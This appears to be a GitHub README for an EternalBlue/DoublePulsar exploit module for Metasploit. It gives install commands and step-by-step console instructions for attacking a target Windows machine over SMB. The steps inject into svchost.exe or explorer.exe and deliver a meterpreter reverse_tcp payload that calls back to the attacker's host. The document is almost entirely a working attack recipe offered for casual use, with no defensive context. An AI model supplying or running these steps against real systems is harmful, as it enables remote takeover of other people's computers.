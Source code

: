 # Eternalblue-Doublepulsar-Metasploit

# How to Install

dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
cd Eternalblue-Doublepulsar-Metasploit
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
# Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
mkdir -p /root/.wine/drive_c/

# How to use

service postgresql start
service postgresql enable
msfconsole
reload_all 
use exploit/windows/smb/eternalblue_doublepulsar
show options

 - For Windows x64
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 set TARGETARCHITECTURE x64
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 - For Windows x86
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 set TARGETARCHITECTURE x86
 set payload windows/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 # Have a Fun! :)
